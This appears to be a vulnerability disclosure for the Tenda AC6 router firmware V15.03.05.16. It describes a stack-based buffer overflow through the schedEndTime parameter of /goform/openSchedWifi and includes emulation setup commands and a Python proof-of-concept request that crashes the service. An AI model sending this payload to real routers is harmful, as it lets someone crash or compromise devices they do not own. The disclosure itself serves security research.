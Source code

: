 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![image](https://github.com/user-attachments/assets/75eb2018-df60-4c06-bfb0-1920038a3a22)


### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```
### Vulnerability details


Tenda AC6 **V15.03.05.16** has a stack overflow vulnerability. The vulnerability affects the file /goform/openSchedWifi function setSchedWifi. Setting the schedEndTime parameter causes a stack-based buffer overflow.

![image](https://github.com/user-attachments/assets/d0e02466-66f8-4945-a3f4-f19493f1ee73)


![image](https://github.com/user-attachments/assets/e44effb1-3414-4cb3-adcf-01fcfd87edb7)


### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/openSchedWifi"

data = {
    "schedWifiEnable": "Raining101",
    "schedEndTime": "Raining" * 2000 
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![image](https://github.com/user-attachments/assets/d78de198-bb74-4f25-ac0d-200c4516cc91)

